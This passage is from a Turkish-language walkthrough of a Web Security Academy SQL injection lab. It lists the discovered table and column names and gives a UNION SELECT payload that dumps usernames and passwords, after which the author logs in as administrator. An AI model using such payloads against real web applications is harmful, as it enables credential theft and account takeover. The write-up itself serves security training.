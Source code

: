 ```html
gelen sonuçları not ediyoruz:
Tablo Adı: 
users_nmvfut

Kolon Adları:
password_ugssmd
email
username_obdlzx
```

Bu bilgiler ışığında yeni SQL sorgumuzu hazırlayalım. 

```html
mdisec' UNION SELECT null, concat(username_obdlzx,':::ilker:::',password_ugssmd) FROM users_nmvfut -- adfsf
```

Bu şekilde sorgumuzu SQL Injection güvenlik açığı sayesinde web uygulamasında çalıştırdığımızda istediğimiz sonuçları artık alabiliyoruz.

![Untitled](Web%20Security%200x0A%20Web%20Security%20Academy'den%20Devam%20E%205d98a1205cb7439db45c8e0570ab118e/Untitled%2025.png)

Ve son olarak administrator hesabıyla giriş yaptığımızda lab çözülmüş oluyor…

![Untitled](Web%20Security%200x0A%20Web%20Security%20Academy'den%20Devam%20E%205d98a1205cb7439db45c8e0570ab118e/Untitled%2026.png)
